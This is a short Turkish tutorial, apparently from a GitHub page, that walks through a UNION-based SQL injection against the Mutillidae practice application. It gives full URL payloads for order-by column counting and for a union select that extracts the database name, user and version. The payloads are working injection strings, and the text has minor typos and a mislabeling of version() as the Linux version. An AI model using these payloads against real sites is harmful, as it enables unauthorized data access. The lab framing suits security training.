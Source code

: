 # SQL Get ile Veri Tabanı İsmini Öğrenme

#### 1. URL'kısmına ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' order by1%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazıyoruz
#### 2. ```order by 2``` diyerek tek tek deniyoruz ve kaç sütun olduğunu öğreniyoruz
#### 3. Kaç sütun olduğunu anlatıktan sonra (varsayalım 5 sütun var)
#### 4. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, 2, 3, 4, 5%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazarak o sütundaki değerleri bastırıyoruz
#### 5. ```123.123.123.123/mutillidae/index.php?page=user-inho.php&username=admin' union select 1, database(), user(), version(),5%23&password=123456&user-info-php-submit-button=View+Account+Details``` yazıyoruz
#### 6. Veritabanı ismini, kullanıcı adını ve linux versiyonunu öğreniyoruz
